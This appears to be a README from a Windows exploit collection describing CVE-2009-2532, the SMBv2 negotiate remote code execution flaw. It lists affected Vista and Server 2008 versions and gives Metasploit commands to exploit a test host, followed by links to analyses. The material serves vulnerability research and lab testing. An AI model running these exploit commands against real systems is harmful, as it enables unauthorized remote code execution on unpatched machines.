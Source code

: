 ### CVE-2009-2532

#### Describe

Microsoft Windows Vista Gold, SP1, and SP2, Windows Server 2008 Gold and SP2, and Windows 7 RC do not properly process the command value in an SMB Multi-Protocol Negotiate Request packet, which allows remote attackers to execute arbitrary code via a crafted SMBv2 packet to the Server service, aka "SMBv2 Command Value Vulnerability."


#### ImpactVersion

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows Server 2008 | X64/X86          |         | SP2    | &#10004; |
| Windows Server 2008 | X86/X64          |         |        |                    |
| Windows Vista       |                  |         | SP1    |                    |
| Windows Vista       |                  |         | SP2    |                    |
| Windows Vista       |                  |         |        |                    |

#### Utilization

use MSF Test system Windows Server 2008 SP2 x86

```
use exploit/windows/smb/ms09_050_smb2_negotiate_func_index
set RHOSTS 192.168.1.13 #目标IP
run
```

![image-20200823134421895](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2009-2532_win2008_x86_msf.png)

#### Analyze
- https://www.giantbranch.cn/2017/08/26/Educatedscholar%E5%88%A9%E7%94%A8%E7%9A%84%E6%BC%8F%E6%B4%9Ems09-050%E5%88%86%E6%9E%90%E5%8F%8A%E5%85%B6%E5%88%A9%E7%94%A8%E7%9A%84shellcode%E5%88%86%E6%9E%90%E5%8F%8A%E4%B8%8Emsf%E5%88%A9%E7%94%A8%E5%AF%B9%E6%AF%94/
- https://zhuanlan.zhihu.com/p/27155431